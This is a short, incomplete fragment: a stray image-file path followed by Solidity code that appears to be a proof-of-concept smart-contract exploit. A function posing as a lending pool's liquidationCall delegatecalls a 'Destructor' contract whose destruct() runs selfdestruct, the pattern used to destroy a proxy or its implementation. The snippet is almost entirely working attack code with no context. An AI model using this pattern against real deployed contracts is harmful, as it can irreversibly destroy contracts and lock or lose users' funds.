 ```
  function liquidationCall(address,address,address,uint256,bool) external returns(uint, string memory) {
    address(0x5FbDB2315678afecb367f032d93F642f64180aa3).delegatecall(abi.encodeWithSignature("destruct()", "MyName"));
  }
}

// deployed @ 0x5FbDB2315678afecb367f032d93F642f64180aa3
contract Destructor {
  function destruct() external{
    selfdestruct(msg.sender);
  }   
}
```